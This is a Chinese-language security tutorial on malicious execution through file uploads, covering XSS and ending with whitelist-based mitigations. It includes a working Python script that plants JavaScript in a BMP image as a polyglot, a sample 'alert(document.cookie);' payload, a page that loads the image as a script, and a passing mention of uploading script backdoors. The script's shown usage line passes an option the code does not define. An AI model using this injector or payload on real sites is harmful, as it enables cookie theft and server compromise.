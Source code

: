 ## 恶意执行
用户上传文件，例如：图片或是视频。 如果没有效的安全措施，包含恶意指令的文件会被上传到服务器并执行。

### 使用场景
上传数据，恶意执行无权访问的操作。

### 漏洞分析
恶意执行很多体现在数据上传上，比如XSS，上传脚本都属于恶意执行。
例如：
```
<form action="search.php">
    <input type="text" name="search" />
    <button name="submit">submit</button>
</form>
```
在一个搜索框里面提交javascript、html等脚本数据，如果没有xss防御就会造成xss等攻击，这就是恶意执行。
如果允许用户上传文件数据，可能会造成执行恶意脚本。例如利用bmp图片文件执行xss。
例如：
在BMP文件末尾做以下修改

（1）\xFF

（2）\x2A\x2F,对应的js中的注释符号*/

（3）\x3D\x31\x3B,对应的=1;  是为了伪造成BMP格式

（4）定制的JS代码

下面这段代码来源网络：
```
#!/usr/bin/env python2.7
import os
import argparse
def injectFile(payload,fname):
        f = open(fname,"r+b")
        b = f.read()
        f.close()

        f = open(fname,"w+b")
        f.write(b)
        f.seek(2,0)
        f.write(b'\x2F\x2A')
        f.close()

        f = open(fname,"a+b")
        f.write(b'\xFF\x2A\x2F\x3D\x31\x3B')
        f.write(payload)
        f.close()
        return True

if __name__ == "__main__":
        parser = argparse.ArgumentParser()
        parser.add_argument("filename",help="the bmp file name to infected")
        parser.add_argument("js_payload",help="the payload to be injected. For example: \"alert(1);\"")
        args = parser.parse_args()
        injectFile(args.js_payload,args.filename)
```
运行脚本，将指定的JS代码写入到正常的BMP图片中
格式：python 脚本名 -i 正常BMP格式图片 JSPayload
python BMPinjector.py -i 1.bmp "alert(document.cookie);"

```
<html>
<head><title>Opening an image</title></head>
<body>
<img src="1.bmp"\>
<script src="1.bmp"></script>
</body>
</html>
```
这样上传一个图片，如果文件没做安全检测就会造成里面的代码执行。

如果没有使用白名单或黑名单的方式限制文件类型，可能会造成脚本直接被上传执行。
比如上传一个php、jsp、asp、py等脚本。
就可以直接上传脚本后门控制服务器了。

### 危害
造成XSS攻击或者上传一个脚本后门控制服务器。

### 解决方案
提交的数据使用白名单方式过滤，上传的文件类型做严格的限制。